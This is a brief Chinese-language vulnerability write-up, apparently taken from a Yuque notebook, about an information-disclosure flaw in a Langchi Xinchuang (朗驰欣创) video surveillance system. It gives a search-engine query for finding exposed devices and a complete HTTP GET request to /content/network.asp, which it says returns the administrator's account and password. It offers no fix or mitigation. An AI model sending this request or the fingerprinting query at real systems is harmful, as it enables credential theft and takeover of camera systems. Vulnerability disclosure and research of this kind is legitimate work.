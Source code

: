 # 深圳市朗驰欣创科技股份有限公司视频监控系统存在信息泄露漏洞

# 一、漏洞简介
 深圳市朗驰欣创科技股份有限公司视频监控系统存在信息泄露漏洞，攻击者可通过该漏洞获取管理员账号密码。

# 二、影响版本
视频监控系统

# 三、资产测绘
```plain
product="朗驰欣创-视频监控"
```

![1718871063209-09839cc3-6f98-4acc-93d6-58836915bbad.png](./img/IK3XpT3ZSooUYfXz/1718871063209-09839cc3-6f98-4acc-93d6-58836915bbad-621003.png)

# 四、漏洞复现
```java
GET /content/network.asp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=4
```

![1718871123998-a151d153-7d2f-45d6-be9a-2573d89cecd9.png](./img/IK3XpT3ZSooUYfXz/1718871123998-a151d153-7d2f-45d6-be9a-2573d89cecd9-223531.png)

![1718871159744-6fb67d8c-22d4-4989-a227-8dad29c6d913.png](./img/IK3XpT3ZSooUYfXz/1718871159744-6fb67d8c-22d4-4989-a227-8dad29c6d913-922079.png)



> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yvu0uyqit8xy08u2>